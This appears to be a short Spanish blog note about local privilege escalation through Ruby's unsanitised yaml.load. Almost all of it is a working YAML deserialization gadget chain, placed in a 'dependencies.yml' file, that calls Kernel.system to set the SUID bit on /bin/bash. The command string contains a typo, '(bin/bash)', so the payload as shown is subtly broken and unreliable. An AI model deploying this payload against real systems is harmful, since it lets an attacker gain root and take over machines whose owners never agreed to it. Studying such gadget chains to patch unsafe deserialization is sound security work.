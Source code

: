 ```yaml
---
layout: post
tag: tags
---
```


# Forma de otorgar privilegio *SUID* **/bin/bash** -> aprovechando **'yaml.load'** en un script *'.rb'* que no esta sanitizado.
### En este caso este script esta en un archivo ***'dependencies.yml'*** al que apunta yaml.load para leer su interior y ejecutarlo.

* Script en ruby

```ruby

- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::Request
          sets: !ruby/object:Net::WriteAdapter
              socket: !ruby/module 'Kernel'
              method_id: :system
          git_set: "chmod +s (bin/bash)"
        method_id: :resolve
```
